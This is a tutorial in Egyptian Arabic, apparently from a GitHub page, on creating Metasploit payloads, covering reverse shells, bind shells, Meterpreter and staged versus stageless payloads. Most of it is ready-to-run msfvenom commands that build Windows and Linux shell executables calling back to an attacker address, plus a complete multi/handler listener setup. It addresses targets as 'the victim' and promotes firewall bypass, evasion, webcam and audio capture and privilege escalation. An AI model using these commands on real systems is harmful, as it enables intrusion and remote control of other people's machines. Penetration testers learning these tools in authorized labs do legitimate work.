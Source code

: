 # **🔹 إنشاء وتحليل الـ Payloads وفهم أنواعها ببساطة 🔹**

## **📌 يعني إيه Payload؟**

الـ **Payload** هو الجزء اللي بيتنفذ بعد استغلال الثغرة وبيسمحلك **بالتحكم في الجهاز المستهدف**.  
تقدر تعتبره **الأوامر اللي بتتبعت للجهاز الضحية عشان تعمل حاجة معينة**، زي فتح **جلسة تحكم (Session)** أو تشغيل أمر معين.

---

## **🔥 أنواع الـ Payloads في Metasploit**

### **🟢 1. Reverse Shell (التحكم العكسي)**

🔹 الفكرة هنا إن الضحية (الجهاز المستهدف) هو اللي بيتصل بجهازك، مش العكس.  
📌 **ليه مهم؟**  
✅ بيعدي الفايروول بسهولة لأن الاتصال جاي من الضحية.  
✅ مش محتاج تفتح بورت في الشبكة بتاعتك.

💻 **مثال على إنشاء Reverse Shell للويندوز:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```

⬅️ ده بيخلق ملف تنفيذ (exe) لما الضحية يشغله، هيتصل بجهازك ويديك تحكم كامل.

---

### **🟢 2. Bind Shell (التحكم المباشر)**

🔹 هنا الجهاز المستهدف بيفتح **بورت** وانت بتتصل عليه.  
📌 **إيه مشكلته؟**  
❌ لو الفايروول قافل البورتات، مش هتقدر توصله.  
✅ بس مفيد لو انت عارف إن الشبكة مفتوحة.

💻 **مثال على Bind Shell للينكس:**

```bash
msfvenom -p linux/x86/shell/bind_tcp RHOST=192.168.1.200 LPORT=5555 -f elf > bind.elf
```

⬅️ الضحية بيفتح بورت 5555، وانت تتصل عليه باستخدام Netcat أو Metasploit.

---

### **🟢 3. Meterpreter (التحكم المتقدم)**

🔹 ده **أقوى Payload** لأنه مش مجرد شيل عادي، لكنه بيديك تحكم كامل.  
📌 **مميزاته:**  
✅ تنفيذ أوامر بدون ما تكتشف بسهولة  
✅ تحميل ملفات من وإلى الجهاز المستهدف  
✅ تشغيل كاميرا أو تسجيل الصوت  
✅ رفع الامتيازات (Privilege Escalation)

💻 **مثال على Meterpreter Payload:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > meterpreter.exe
```

⬅️ لما الضحية يشغله، هتتحكم فيه بالكامل من خلال Metasploit.

---

### **🟢 4. Staged vs. Stageless Payloads**

📌 **Staged**: الـ Payload بيتبعت على أجزاء، وده بيقلل حجمه وبيساعده يتخطى الحماية.  
📌 **Stageless**: الـ Payload بيتبعت مرة واحدة، وده بيخليه أسرع لكنه أسهل في الاكتشاف.

💻 **مثال على Staged Payload:**

```bash
windows/meterpreter/reverse_tcp
```

⬅️ بيبعت جزء صغير الأول وبعدها بيحمل باقي الكود لما يتحقق الاتصال.

💻 **مثال على Stageless Payload:**

```bash
windows/meterpreter_reverse_tcp
```

⬅️ بيبعت كل حاجة مرة واحدة، لكنه ممكن يتكشف بسهولة أكبر.

---

## **💡 الخلاصة بالمصري:**

1️⃣ **الـ Payload هو الكود اللي بيديك تحكم في الجهاز بعد ما تستغله.**  
2️⃣ **فيه أنواع زي Reverse Shell (الضحية يتصل بيك) و Bind Shell (انت تتصل بالضحية).**  
3️⃣ **Meterpreter هو أقوى نوع لأنه بيديك تحكم متقدم في النظام.**  
4️⃣ **فيه Payloads Staged (بتتحمل على أجزاء) و Stageless (بتتحمل بالكامل).**

---

## **🛠️ خطوات عملية لإنشاء وتشغيل Payload في Metasploit**

✅ **1. إنشاء Reverse Shell للويندوز:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe
```

⬅️ ده هيخلق ملف تنفيذي لما الضحية يشغله، هيتصل بجهازك.

✅ **2. إعداد Metasploit لاستقبال الاتصال:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

🎯 **بمجرد تشغيل الـ Payload على الضحية، هتوصلك جلسة تحكم كاملة!** 🔥